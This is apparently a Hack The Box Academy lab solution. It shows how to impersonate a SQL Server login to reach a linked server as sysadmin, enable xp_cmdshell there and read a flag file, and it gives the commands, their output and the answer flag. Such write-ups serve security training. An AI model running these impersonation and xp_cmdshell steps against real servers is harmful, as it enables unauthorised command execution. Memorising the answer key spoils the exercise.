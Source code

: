 
From the previous question, students know that they can impersonate the user `john`, therefore, they need to check if `john` can connect to `LOCAL.TEST.LINKED.SRV` as a `sysadmin`:

```sql
EXECUTE AS LOGIN = 'john'
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
GO
```
```
1> EXECUTE AS LOGIN = 'john'
2> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]
3> GO

WINSRV02\SQLEXPRESS Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)
        Sep 24 2019 13:48:23
        Copyright (C) 2019 Microsoft Corporation
        Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
        testadmin 1

(1 rows affected)
```

From the output, students know that `john` can connect to `LOCAL.TEST.LINKED.SRV` as the `sysadmin` user `testadmin`. Thus, with `john` being a `sysadmin`, students can enable `xp_cmdshell` on `LOCAL.TEST.LINKED.SRV` so that they can run commands afterward:

```sql
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
GO
```
```
1> EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
2> GO

Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

At last, students need to print out the contents of the flag file "flag.txt", which is under the `c:\users\administrator\desktop\` directory, finding it to be `HTB{46u$!n9_l!nk3d_$3rv3r$}`:

```sql
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
GO
```
```
1> EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
2> GO

output
---------------------------------------------
HTB{46u$!n9_l!nk3d_$3rv3r$}
NULL

(2 rows affected)
```

Answer: `HTB{46u$!n9_l!nk3d_$3rv3r$}`